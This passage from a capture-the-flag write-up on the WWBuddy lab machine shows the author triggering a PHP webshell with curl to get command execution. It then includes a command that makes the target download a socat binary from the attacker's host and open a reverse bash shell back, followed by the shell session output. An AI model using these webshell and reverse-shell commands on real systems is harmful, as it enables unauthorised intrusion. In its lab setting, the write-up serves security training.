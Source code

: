 **After that login as user `henry`, and then trigger the PHP webshell:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/WWBuddy]
└─# curl -s http://wwbuddy.thm/admin/index.php --cookie "PHPSESSID=24i8aq6e8bggaagojm6hc362dp" --get --data-urlencode "cmd=id" | tail -n 2 | head -n 1
10.9.0.253   2023-01-06 05:57:25   uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Nice! We got remote code execution!

**Let's get a reverse shell:**

- Setup a listener:

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/WWBuddy]
└─# socat -d -d file:`tty`,raw,echo=0 TCP-LISTEN:443
2023/01/06 01:01:29 socat[50932] N opening character device "/dev/pts/2" for reading and writing
2023/01/06 01:01:29 socat[50932] N listening on AF=2 0.0.0.0:443
```

- Trigger the reverse shell:

```
┌──(root🌸siunam)-[/opt/static-binaries/binaries/linux/x86_64]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/WWBuddy]
└─# curl -s http://wwbuddy.thm/admin/index.php --cookie "PHPSESSID=24i8aq6e8bggaagojm6hc362dp" --get --data-urlencode "cmd=wget http://10.9.0.253/socat -O /tmp/socat;chmod +x /tmp/socat;/tmp/socat TCP:10.9.0.253:443 EXEC:'/bin/bash',pty,stderr,setsid,sigint,sane"
```

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/WWBuddy]
└─# socat -d -d file:`tty`,raw,echo=0 TCP-LISTEN:443
2023/01/06 01:01:29 socat[50932] N opening character device "/dev/pts/2" for reading and writing
2023/01/06 01:01:29 socat[50932] N listening on AF=2 0.0.0.0:443
                                                                2023/01/06 01:02:35 socat[50932] N accepting connection from AF=2 10.10.114.1:39662 on AF=2 10.9.0.253:443
                                                               2023/01/06 01:02:35 socat[50932] N starting data transfer loop with FDs [5,5] and [7,7]
                                           www-data@wwbuddy:/var/www/html/admin$ 
www-data@wwbuddy:/var/www/html/admin$ export TERM=xterm-256color
www-data@wwbuddy:/var/www/html/admin$ stty rows 22 columns 107
www-data@wwbuddy:/var/www/html/admin$ ^C
www-data@wwbuddy:/var/www/html/admin$ whoami;hostname;id;ip a
www-data
wwbuddy
uid=33(www-data) gid=33(www-data) groups=33(www-data)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:be:79:84:16:8b brd ff:ff:ff:ff:ff:ff
    inet 10.10.114.1/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 2578sec preferred_lft 2578sec
    inet6 fe80::be:79ff:fe84:168b/64 scope link 
       valid_lft forever preferred_lft forever
```
